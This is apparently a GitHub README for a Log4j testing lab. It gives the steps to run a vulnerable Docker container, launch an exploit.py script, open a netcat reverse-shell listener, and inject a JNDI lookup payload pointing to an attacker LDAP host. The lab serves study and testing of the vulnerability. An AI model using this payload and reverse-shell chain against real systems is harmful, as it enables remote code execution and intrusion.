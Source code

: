 # log4j-testing


Run in the Docker 
```
docker run --network host deimergrueso/log4j-testing:latest
```

Confirm if is running with 

```
docker ps 
```

From the Attacker machine download the target folder and the exploit.py on the same folder

```
python3 exploit.py 
```
![Alt text](https://github.com/deimergruesobar/log4j-testing/blob/main/log4j/img/exploit.png)

In a split shell execute 
```
nc -lnvp 9001
```
![Alt text](https://github.com/deimergruesobar/log4j-testing/blob/main/log4j/img/nc.png)

In the web browser of Kali excecute 
```
${jndi:ldap://192.168.122.153:1389/a}
```
Follow the wizard in the exploit.py shell 
![Alt text](https://github.com/deimergruesobar/log4j-testing/blob/main/log4j/img/jndi.png)

Connection completed
![Alt text](https://github.com/deimergruesobar/log4j-testing/blob/main/log4j/img/connected.png)